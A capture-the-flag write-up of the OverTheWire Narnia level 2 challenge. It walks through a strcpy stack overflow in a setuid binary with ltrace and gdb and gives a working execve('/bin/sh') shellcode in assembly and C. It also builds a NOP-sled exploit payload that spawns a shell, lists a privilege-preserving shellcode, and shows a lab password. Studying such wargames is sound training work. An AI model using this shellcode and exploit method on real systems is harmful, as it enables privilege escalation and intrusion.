

# Narnia Level 1 → Level 2 Buffer Overflow w/ ltrace & gdb & NOP sled & payload 🧠🧠🧠🧠🧠

## Previous Flag
<b>5agRAXeBdG</b>

## Goal
Use previous password to log in SSH with user <b>narnia2</b> and port <b>2226</b> accessed on narnia.labs.overthewire.org.

There is no information for this level, intentionally.



## What I learned
```
$ find /usr/include/x86_64-linux-gnu/ -name stdio.h
/usr/include/x86_64-linux-gnu/bits/stdio.h
/usr/include/x86_64-linux-gnu/bsd/stdio.h

studio.h    https://www.gnu.org/software/m68hc11/examples/stdio_8h-source.html
            less /usr/include/x86_64-linux-gnu/bsd/stdio.h ⌨️
string.h    https://www.gnu.org/software/m68hc11/examples/string_8h-source.html
            less /usr/include/x86_64-linux-gnu/bsd/string.h ⌨️
stdlib.h    https://gcc.gnu.org/onlinedocs/gcc-7.1.0/libstdc++/api/a01623_source.html
            less /usr/include/x86_64-linux-gnu/bsd/stdlib.h ⌨️

Running executable a few times with ltrace will show if memory addresses change
Indicating binary was compiled with ASLR (Address Space Layout Randomization)
Now we know memory address doesn’t change

Instruction Pointer register called EIP on 32-bit x86 and RIP on 64-bit
    holds address of next instruction processor will execute

Buffer overflow exploits often overwrite EIP so points to your shellcode’s location in memory
    Making the CPU "jump" into your code

NOP sled: https://johnermac.github.io/notes/ecppt/systemsecurity/
```

## Side Quest
```
# Step 1: Write the assembly file called shellcode.asm
; shellcode.asm - Linux/x86 execve("/bin/sh")
global _start

section .text
_start:
    xor    eax, eax            ; clear eax (sets it to 0)
    push   eax                 ; push 0 (NULL terminator for string)
    push   0x68732f2f          ; push "//sh"
    push   0x6e69622f          ; push "/bin"
    mov    ebx, esp            ; ebx points to "/bin//sh"
    push   eax                 ; push 0 (NULL terminator for argv)
    push   ebx                 ; push pointer to "/bin//sh"
    mov    ecx, esp            ; ecx points to argv array
    mov    al, 0x0b            ; syscall number 11 = execve
    int    0x80                ; make syscall

# Step 2: Use nasm to assemble to 32-bit object
nasm -f elf32 shellcode.asm -o shellcode.o ⌨️
    -f elf32                    32-bit ELF object file.
    shellcode.o                 Machine Code

# Optional: Learning
    /       b       i       n       /       s       h
    0x2f    0x62    0x69    0x6e    0x2f    0x73    0x68
    
    # split into 4-Byte chunks add padding if needed
    x86 is little-endian, so bytes are reversed
    //sh 2f2f7368 →         push 0x68732f2f
    /bin 2f62696e →         push 0x6e69622f

# Step 3: Use objdump to disassemble and see opcode bytes
objdump -d shellcode.o ⌨️
00000000 <_start>:
   0: 31 c0                   xor    eax,eax
   2: 50                      push   eax
   3: 68 2f 2f 73 68          push   0x68732f2f         # pushes 4 byte value onto stack
   8: 68 2f 62 69 6e          push   0x6e69622f
   d: 89 e3                   mov    ebx,esp
   f: 50                      push   eax
  10: 53                      push   ebx
  11: 89 e1                   mov    ecx,esp
  13: b0 0b                   mov    al,0xb
  15: cd 80                   int    0x80
# Left side is memory layout of Stack see how things get pushed or mov

# Step 4: Converting to C
# Take all the bytes in order from objdump (from top to bottom) and now can upload to sites like shell-storm.org
char shellcode[] =
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
  "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
  "\x53\x89\xe1\xb0\x0b\xcd\x80";

# Step 5: Test in C
# shellcode.c
#include <stdio.h>
#include <string.h>

char shellcode[] =
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
  "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
  "\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
    printf("Shellcode length: %lu\n", strlen(shellcode));
    (*(void(*)()) shellcode)();  // execute shellcode
    return 0;
}

gcc -fno-stack-protector -z execstack shellcode.c -o shellcode ⌨️
./shellcode ⌨️

Optional: Compile C to assembly with -S from .c👀 ❤️❤️❤️
gcc -m32 -fno-stack-protector -z execstack -O0 -S shellcode.c -o shellcode.s ⌨️

Optional: Compile to binary👀 and disassemble with objdump ❤️❤️❤️❤️❤️
gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode ⌨️
objdump -d shellcode ⌨️
```

## Solution
```
PS C:\Users\trung.DESKTOP-G7C81CH\Downloads\01noobHacker> ssh narnia2@narnia.labs.overthewire.org -p 2226 ⌨️
narnia2@narnia:~$ cd /narnia/ ⌨️
narnia2@narnia:/narnia$ file narnia2 ⌨️
narnia2: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cbf210f5149351ddfcc3a33ac83f5494225a65dd, for GNU/Linux 3.2.0, not stripped
narnia2@narnia:/narnia$ cat narnia2.c ⌨️
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){              // argument count, argument vector
    char buf[128];                              // 👀 Hacker's love fixed arrays

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);                        // Vulnerability is here
    printf("%s", buf);

    return 0;
}
narnia2@narnia:/narnia$ ./narnia2 ⌨️
Usage: ./narnia2 argument
narnia2@narnia:/narnia$ ./narnia2 Hi World ⌨️
Hi
narnia2@narnia:/narnia$ ./narnia2 $(python3 -c "print('A'*131)") ⌨️
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnarnia2@narnia:/narnia2@narnia:/narnia$ ./narnia2 $(python3 -c "print('A'*132)") ⌨️
Segmentation fault (core dumped)                                                # Note: This gives clue offset 132, use gdb to conirm

# OPTIONAL: Check if memory address changes w/ ltrace
narnia2@narnia:/narnia$ ltrace ./narnia2 ⌨️
__libc_start_main(0x804909d, 1, 0xffffd514, 0 <unfinished ...>     
printf("Usage: %s argument\n", "./narnia2"Usage: ./narnia2 argument
)                                          = 26
exit(1 <no return ...>
+++ exited (status 1) +++
narnia2@narnia:/narnia$ ltrace ./narnia2 $(python -c 'print "A"*128') ⌨️        # Note: Only works if python installed
Command 'python' not found, did you mean:    
  command 'python3' from deb python3
  command 'python' from deb python-is-python3
__libc_start_main(0x804909d, 1, 0xffffd514, 0 <unfinished ...>     
printf("Usage: %s argument\n", "./narnia2"Usage: ./narnia2 argument
)                                          = 26
exit(1 <no return ...>
+++ exited (status 1) +++
narnia2@narnia:/narnia$ ltrace ./narnia2 $(python3 -c "print('A'*128)") ⌨️       # Fix: Use python3 instead, no need change env variables
__libc_start_main(0x804909d, 2, 0xffffd3e4, 0 <unfinished ...>
strcpy(0xffffd2a8, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                            = 0xffffd2a8
printf("%s", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                  = 128
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA+++ exited 
(status 0) +++
narnia2@narnia:/narnia$ ltrace ./narnia2 "$(printf 'A%.0s' {1..128})" ⌨️
__libc_start_main(0x804909d, 2, 0xffffd494, 0 <unfinished ...>
strcpy(0xffffd358, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                            = 0xffffd358
printf("%s", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                  = 128       
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA+++ exited 
(status 0) +++
narnia2@narnia:/narnia$ ltrace ./narnia2 "$(printf '\x41%.0s' {1..128})" ⌨️     # \x41 is hex for A
__libc_start_main(0x804909d, 2, 0xffffd494, 0 <unfinished ...>
strcpy(0xffffd358, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                            = 0xffffd358
printf("%s", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                  = 128
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA+++ exited 
(status 0) +++
narnia2@narnia:/narnia$ ltrace ./narnia2 "$(echo -n A{1..128} | tr -d ' ')" ⌨️ # echo screws up w/ binary (not safe)
__libc_start_main(0x804909d, 2, 0xffffd374, 0 <unfinished ...>                  # brace expansion {1..5} inserts numbers
strcpy(0xffffd238, "A1A2A3A4A5A6A7A8A9A10A11A12A13A1"...)                            = 0xffffd238
printf("%s", "A1A2A3A4A5A6A7A8A9A10A11A12A13A1"...)                                  = 404
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

# If memory address not change, we found a vulnerability
# 128 was reserved space for array, let us go above w/ 135
narnia2@narnia:/narnia$ ltrace ./narnia2 "$(printf 'A%.0s' {1..135})" ⌨️
__libc_start_main(0x804909d, 2, 0xffffd484, 0 <unfinished ...>
strcpy(0xffffd348, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                            = 0xffffd348
printf("%s", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                  = 135
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

# Need to determine exact offset to craft our payload using gdb (quiet banner mode)
narnia2@narnia:/narnia$ gdb -q ./narnia2 ⌨️❤️
Reading symbols from ./narnia2...
Download failed: Permission denied.  Continuing without separate debug info for /narnia/narnia2.
(No debugging symbols found in ./narnia2)
(gdb) set disassembly-flavor intel ⌨️❤️
(gdb) disassemble main ⌨️
Dump of assembler code for function main:
   0x08049186 <+0>:     push   ebp
   0x08049187 <+1>:     mov    ebp,esp
   0x08049189 <+3>:     add    esp,0xffffff80
   0x0804918c <+6>:     cmp    DWORD PTR [ebp+0x8],0x1
   0x08049190 <+10>:    jne    0x80491ac <main+38>
   0x08049192 <+12>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08049195 <+15>:    mov    eax,DWORD PTR [eax]
   0x08049197 <+17>:    push   eax
   0x08049198 <+18>:    push   0x804a008
   0x0804919d <+23>:    call   0x8049040 <printf@plt>
   0x080491a2 <+28>:    add    esp,0x8
   0x080491a5 <+31>:    push   0x1
   0x080491a7 <+33>:    call   0x8049060 <exit@plt>
   0x080491ac <+38>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080491af <+41>:    add    eax,0x4
   0x080491b2 <+44>:    mov    eax,DWORD PTR [eax]
   0x080491b4 <+46>:    push   eax
--Type <RET> for more, q to quit, c to continue without paging--c
   0x080491b5 <+47>:    lea    eax,[ebp-0x80]
   0x080491b8 <+50>:    push   eax
   0x080491b9 <+51>:    call   0x8049050 <strcpy@plt>
   0x080491be <+56>:    add    esp,0x8
   0x080491c1 <+59>:    lea    eax,[ebp-0x80]
   0x080491c4 <+62>:    push   eax
   0x080491c5 <+63>:    push   0x804a01c
   0x080491ca <+68>:    call   0x8049040 <printf@plt>
   0x080491cf <+73>:    add    esp,0x8
   0x080491d2 <+76>:    mov    eax,0x0
   0x080491d7 <+81>:    leave   👀
   0x080491d8 <+82>:    ret
End of assembler dump.
(gdb) break *main+81 ⌨️
Breakpoint 1 at 0x80491d7
(gdb) info breakpoints ⌨️
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x080491d7 <main+81>
(gdb) run $(python3 -c "print('A'*131)") ⌨️
Starting program: /narnia/narnia2 $(python3 -c "print('A'*131)")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[Inferior 1 (process 2104612) exited normally]
(gdb) run $(python3 -c "print('A'*132)") ⌨️
Starting program: /narnia/narnia2 $(python3 -c "print('A'*132)")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault. 👀
Download failed: Invalid argument.  Continuing without source file ./libio/./libio/libioP.h.
IO_set_accept_foreign_vtables (flag=0xf9e348b5) at ./libio/libioP.h:1002
warning: 1002   ./libio/libioP.h: No such file or directory
(gdb) run $(python3 -c "print('A'*136)") ⌨️
The program being debugged has been started already.
Start it from the beginning? (y or n) y ⌨️
Starting program: /narnia/narnia2 $(python3 -c "print('A'*136)")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? () 👀👀👀👀👀
(gdb) x/-50wx $esp ⌨️❤️❤️❤️❤️❤️              # Examine stack pointer w/ 50 words from memory in reverse
0xffffd238:     0xf7ddc11d      0xf7faae34      0xffffd3c0      0xf7ffcb60
0xffffd248:     0xffffd2f8      0xf7dd1dd9      0xf7fabd40      0x0804a01c
0xffffd258:     0xffffd274      0x00000000      0xffffd278      0xf7ffda20
0xffffd268:     0xf7dd1db9      0x080491cf      0x0804a01c      0xffffd278
0xffffd278:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd288:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd298:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f8:     0x41414141      0x41414141

# Replace with 4 B's to tell which is end of array since all A's hard to tell to see if B's overwrite Instruction Pointer(EIP) reference register
(gdb) run $(python3 -c "print('A'*132+'B'*4)") ⌨️
The program being debugged has been started already.
Start it from the beginning? (y or n) y ⌨️
Starting program: /narnia/narnia2 $(python3 -c "print('A'*132+'B'*4)") ⌨️
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()                             # 🧠 EIP register is overwritten w/ a payload of 132 A’s, since all B's here
(gdb) x/-50wx $esp ⌨️
0xffffd238:     0xf7ddc11d      0xf7faae34      0xffffd3c0      0xf7ffcb60
0xffffd248:     0xffffd2f8      0xf7dd1dd9      0xf7fabd40      0x0804a01c
0xffffd258:     0xffffd274      0x00000000      0xffffd278      0xf7ffda20
0xffffd268:     0xf7dd1db9      0x080491cf      0x0804a01c      0xffffd278
0xffffd278:     0x41414141      0x41414141      0x41414141      0x41414141 👀 A's start here record addy
0xffffd288:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd298:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f8:     0x41414141      0x42424242 👀 B's here, replace addy w/ shell

# Create offset from: https://shell-storm.org/
# Replace 132 Payload w/ NOP sled (\x90) * (132-SHELLCODE Bytes) + <SHELLCODE> + 4 Bytes for EIP (B's)
# Bad ShellCode w/o -p: https://shell-storm.org/shellcode/files/shellcode-827.html ⚠️
23 Bytes: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
# Remember: 0xffffd278 is in reverse in memory \x78\xd2\xff\xff
# Data gets enters goes to shell code and must return to addy
# 132 A, 4 B = 136, Offset is 132 ... (132-23)*'A'
# Begin constructing thinking it goes into shell code first (but we not know exactly where it starts so will prob get AAAA at end)
Starting program: /narnia/narnia2 $(python3 -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + (132-23)*'A' + '\x78\xd2\xff\xff')") ⌨️
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? () ⚠️👀 returning wrong address

# Tried fixing by moving A to front (but still wrong)
(gdb) run $(python3 -c "print((132-23)*'A' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x78\xd2\xff\xff')") ⌨️      
The program being debugged has been started already.
Start it from the beginning? (y or n) y ⌨️
Starting program: /narnia/narnia2 $(python3 -c "print((132-23)*'A' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x78\xd2\xff\xff')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0bb0c2a1 in ?? ()

# Replace A's w/ NOP sled (/x90) will ignore it
(gdb) run $(python3 -c "print((132-23)*'\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x78\xd2\xff\xff')") ⌨️   
Starting program: /narnia/narnia2 $(python3 -c "print((132-23)*'\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 
'\x78\xd2\xff\xff')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x90c290c2 in ?? () 👀⚠️ 90c not hex code problem

# Look at SP to see the 90c issue
(gdb) x/50x $esp ⌨️
0xffffd280:     0x90c290c2      0x90c290c2      0x90c290c2      0x90c290c2 👀 it not hex 90
0xffffd290:     0x90c290c2      0x90c290c2      0x90c290c2      0x90c290c2 👀
0xffffd2a0:     0x90c290c2      0x90c290c2      0x90c290c2      0x90c290c2 👀
0xffffd2b0:     0x90c290c2      0x90c290c2      0x90c290c2      0x90c290c2 👀
0xffffd2c0:     0x90c290c2      0x90c290c2      0x90c290c2      0x90c290c2 👀
0xffffd2d0:     0xc33190c2      0x2f685080      0x6868732f      0x6e69622f
0xffffd2e0:     0xa3c389c2      0x89c25350      0xb0c2a1c3      0xc28dc30b
0xffffd2f0:     0x92c37880      0xbfc3bfc3      0xf7d9ec00      0x0804b1e0
0xffffd300:     0x00000002      0x08049070      0x00000000      0x08049098
0xffffd310:     0x0804909d      0x00000002      0xffffd334      0x00000000
0xffffd320:     0x00000000      0xf7fcde80      0xffffd32c      0xf7ffda20
0xffffd330:     0x00000002      0xffffd4ad      0xffffd4bd      0x00000000
0xffffd340:     0xffffd5be      0xffffd5ce

# Using printf since python3 not doing hex correctly, Note: echo -e was giving issues as well
(gdb) run "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x78\xd2\xff\xff')" ⌨️
Starting program: /narnia/narnia2 "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x78\xd2\xff\xff')"
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xffffd2f5 in ?? ()

(gdb) x/250x $esp ⌨️
0xffffd2f4:     0x6e69622f      0x68732f2f      0x00000000      0x00000000
0xffffd304:     0xffffd3b4      0xffffd3c0      0xffffd320      0xf7faae34
0xffffd314:     0x0804909d      0x00000002      0xffffd3b4      0xf7faae34
0xffffd324:     0xffffd3c0      0xf7ffcb60      0x00000000      0x0e399115
0xffffd334:     0x42477b05      0x00000000      0x00000000      0x00000000
0xffffd344:     0xf7ffcb60      0x00000000      0x9805c900      0xf7ffda20
0xffffd354:     0xf7d9ec46      0xf7faae34      0xf7d9ed7c      0xf7fc9af4
0xffffd364:     0x0804b0f0      0x00000000      0xf7ffd000      0x00000000
0xffffd374:     0xf7fdabb0      0xf7d9ecfd      0x0804b1e0      0x00000002
0xffffd384:     0x08049070      0x00000000      0x08049098      0x0804909d
0xffffd394:     0x00000002      0xffffd3b4      0x00000000      0x00000000
0xffffd3a4:     0xf7fcde80      0xffffd3ac      0xf7ffda20      0x00000002
0xffffd3b4:     0xffffd525      0xffffd535      0x00000000      0xffffd5be
0xffffd3c4:     0xffffd5ce      0xffffd5da      0xffffd5ea      0xffffd5ff
0xffffd3d4:     0xffffd60e      0xffffd617      0xffffd62a      0xffffd637
0xffffd3e4:     0xffffdd50      0xffffdd5c      0xffffdd8e      0xffffddb0
--Type <RET> for more, q to quit, c to continue without paging--c
0xffffd3f4:     0xffffddc7      0xffffdddb      0xffffddfb      0xffffde08
0xffffd404:     0xffffde10      0xffffde25      0xffffde45      0xffffde68
0xffffd414:     0xffffde7e      0xffffdead      0xffffdec0      0xffffdecb
0xffffd424:     0xffffdf0c      0xffffdf74      0xffffdfab      0xffffdfbf
0xffffd434:     0xffffdfd4      0x00000000      0x00000020      0xf7fc7570
0xffffd444:     0x00000021      0xf7fc7000      0x00000033      0x00000e30
0xffffd454:     0x00000010      0x1f8bfbff      0x00000006      0x00001000
0xffffd464:     0x00000011      0x00000064      0x00000003      0x08048034
0xffffd474:     0x00000004      0x00000020      0x00000005      0x0000000a
0xffffd484:     0x00000007      0xf7fc9000      0x00000008      0x00000000
0xffffd494:     0x00000009      0x08049070      0x0000000b      0x000036b2
0xffffd4a4:     0x0000000c      0x000036b2      0x0000000d      0x000036b2
0xffffd4b4:     0x0000000e      0x000036b2      0x00000017      0x00000001
0xffffd4c4:     0x00000019      0xffffd50b      0x0000001a      0x00000002
0xffffd4d4:     0x0000001f      0xffffdfe8      0x0000000f      0xffffd51b
0xffffd4e4:     0x0000001b      0x0000001c      0x0000001c      0x00000020
0xffffd4f4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd504:     0x00000000      0x51000000      0xc89805c9      0xd47578cf
0xffffd514:     0x7f3ea5ee      0x6944650c      0x00363836      0x00000000
0xffffd524:     0x616e2f00      0x61696e72      0x72616e2f      0x3261696e
0xffffd534:     0x90909000      0x90909090      0x90909090      0x90909090 👀 NOP
0xffffd544:     0x90909090      0x90909090      0x90909090      0x90909090 👀 NOP
0xffffd554:     0x90909090      0x90909090      0x90909090      0x90909090 👀 NOP (if using this change return address)(ref addy)
0xffffd564:     0x90909090      0x90909090      0x90909090      0x90909090 👀 NOP
0xffffd574:     0x90909090      0x90909090      0x90909090      0x90909090 👀 NOP
0xffffd584:     0x90909090      0x90909090      0x90909090      0x90909090 👀 NOP
0xffffd594:     0x90909090      0x90909090      0x90909090      0xc0319090 # Slide down and run shell code
0xffffd5a4:     0x2f2f6850      0x2f686873      0x896e6962      0x895350e3
0xffffd5b4:     0xcd0bb0e1      0xffd27880      0x485300ff      0x3d4c4c45
0xffffd5c4:     0x6e69622f      0x7361622f      0x57500068      0x6e2f3d44
0xffffd5d4:     0x696e7261      0x4f4c0061      0x4d414e47      0x616e3d45
0xffffd5e4:     0x61696e72      0x44580032      0x45535f47      0x4f495353
0xffffd5f4:     0x59545f4e      0x743d4550      0x5f007974      0x73752f3d
0xffffd604:     0x69622f72      0x64672f6e      0x494c0062      0x3d53454e
0xffffd614:     0x48003831      0x3d454d4f      0x6d6f682f      0x616e2f65
0xffffd624:     0x61696e72      0x414c0032      0x433d474e      0x4654552e
0xffffd634:     0x4c00382d      0x4f435f53      0x53524f4c      0x3d73723d
0xffffd644:     0x69643a30      0x3b31303d      0x6c3a3433      0x31303d6e
0xffffd654:     0x3a36333b      0x303d686d      0x69703a30      0x3b30343d
0xffffd664:     0x733a3333      0x31303d6f      0x3a35333b      0x303d6f64
0xffffd674:     0x35333b31      0x3d64623a      0x333b3034      0x31303b33
0xffffd684:     0x3d64633a      0x333b3034      0x31303b33      0x3d726f3a
0xffffd694:     0x333b3034      0x31303b31      0x3d696d3a      0x733a3030
0xffffd6a4:     0x37333d75      0x3a31343b      0x333d6773      0x33343b30
0xffffd6b4:     0x3d61633a      0x743a3030      0x30333d77      0x3a32343b
0xffffd6c4:     0x333d776f      0x32343b34      0x3d74733a      0x343b3733
0xffffd6d4:     0x78653a34      0x3b31303d

# Picked NOP address 0xffffd554 remember to change end of payload so when code finishes go to that ref location
Original: (gdb) run "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '👀\x78\xd2\xff\xff👀')"
Modified: (gdb) run "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x54\xd5\xff\xff')"
(gdb) run "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x54\xd5\xff\xff')" ⌨️
The program being debugged has been started already.
Start it from the beginning? (y or n) y ⌨️
Starting program: /narnia/narnia2 "$(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x54\xd5\xff\xff')"
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d7 in main ()
(gdb) continue ⌨️
Continuing.
process 480557 is executing new program: /usr/bin/dash
Download failed: Permission denied.  Continuing without separate debug info for /usr/bin/dash.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "main" in current context.
$ whoami ⌨️
narnia2 
$ exit ⌨️
[Inferior 1 (process 480557) exited normally]
(gdb) exit ⌨️
narnia2@narnia:/narnia$ ./narnia2 $(printf '\x90%.0s' {1..109}; printf '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'; printf '\x54\xd5\xff\xff') ⌨️
$ whoami ⌨️
narnia2
$ exit ⌨️

# Can now get in shell but shell need -p permission so need different payload
Source: https://shell-storm.org/shellcode/files/shellcode-606.html
33 bytes: \x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
